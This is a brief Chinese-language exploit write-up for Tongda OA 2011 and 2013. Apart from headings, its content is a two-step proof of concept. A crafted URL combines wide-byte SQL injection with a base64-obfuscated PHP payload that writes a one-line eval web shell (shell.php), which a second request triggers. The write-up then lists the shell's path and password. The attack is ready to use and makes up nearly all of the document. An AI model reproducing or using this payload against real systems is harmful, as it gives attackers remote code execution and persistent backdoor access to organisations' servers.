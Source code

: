 通达oa 2011-2013 通杀GETSHELL
=============================

一、漏洞简介
------------

二、漏洞影响
------------

2011、2013版本

三、复现过程
------------

第一步:

    http://0-sec.org/general/crm/studio/modules/EntityRelease/release.php?entity_name=1%d5'%20or%20sys_function.FUNC_ID=1%23%20${%20fputs(fopen(base64_decode(c2hlbGwucGhw),w),base64_decode(PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz5vaw))}

第二步:

    http://0-sec.org/general/email/index.php

SHELL:

    http://0-sec.org/general/email/shell.php 密码C
